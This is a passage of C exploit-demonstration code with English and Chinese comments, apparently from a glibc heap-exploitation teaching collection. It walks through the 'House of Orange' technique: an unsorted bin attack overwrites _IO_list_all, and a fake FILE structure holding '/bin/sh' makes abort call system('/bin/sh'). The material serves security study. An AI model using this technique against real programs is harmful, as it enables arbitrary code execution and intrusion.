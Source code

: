 ```c
      is triggered when the libc detects any bogus state of the heap.
      Whenever abort is triggered, it will flush all the file pointers by calling
      _IO_flush_all_lockp. Eventually, walking through the linked list in
      _IO_list_all and calling _IO_OVERFLOW on them.
			
			通过fake File的指针覆盖_IO_list_all指针，使_IO_OVERLOW指向system()，并且其Fake File的前8个字节设置为"/bin/sh"，因此当调用_IO_OVERFLOW（fp，EOF）时，会转换为system("/bin/sh")。
			
      The idea is to overwrite the _IO_list_all pointer with a fake file pointer, whose
      _IO_OVERLOW points to system and whose first 8 bytes are set to '/bin/sh', so
      that calling _IO_OVERFLOW(fp, EOF) translates to system('/bin/sh').
      More about file-pointer exploitation can be found here:
      https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/

      The address of the _IO_list_all can be calculated from the fd and bk of the free chunk, as they
      currently point to the libc's main_arena.
    */

    io_list_all = top[2] + 0x9a8;

    /*
      We plan to overwrite the fd and bk pointers of the old top,
      which has now been added to the unsorted bins.
      
      通过覆盖old Top chunk的fd和bk指针来运用Unsorted bin Attack来将_IO_list_all指针被修改从而指向Unsorted bin(即bin_at(1))。

      When malloc tries to satisfy a request by splitting this free chunk
      the value at chunk->bk->fd gets overwritten with the address of the unsorted-bin-list
      in libc's main_arena.

      Note that this overwrite occurs before the sanity check and therefore, will occur in any
      case.
      
      我们需要将old Top chunk的bk设置为_IO_list_all - 0x10，从而通过Unsorted bin Attack来将_IO_list_all指向Unsorted bin(即bin_at(1))。
      
      Here, we require that chunk->bk->fd to be the value of _IO_list_all.
      So, we should set chunk->bk to be _IO_list_all - 16
    */
 
    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    /*
      The function _IO_flush_all_lockp iterates through the file pointer linked-list
      in _IO_list_all.
      Since we can only overwrite this address with main_arena's unsorted-bin-list,
      the idea is to get control over the memory at the corresponding fd-ptr.
      在一个FILE结构体中，next file的指针在偏移量0x68的位置。由于我们的fake File在old Top chunk,而且，io_list_all已经被设置为Unsorted bin地址(即bin_at(1))，所以fake File应该被放在这个next file，从而让我们可以遍历到它，计算这个编译量，发现我们需要把old Top chunk放到Small Bin[4] <==> bin_at(6),其size位置需要被设置为0x61。
      The address of the next file pointer is located at base_address+0x68.
      This corresponds to smallbin-4, which holds all the smallbins of
      sizes between 90 and 98. For further information about the libc's bin organisation
      see: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
```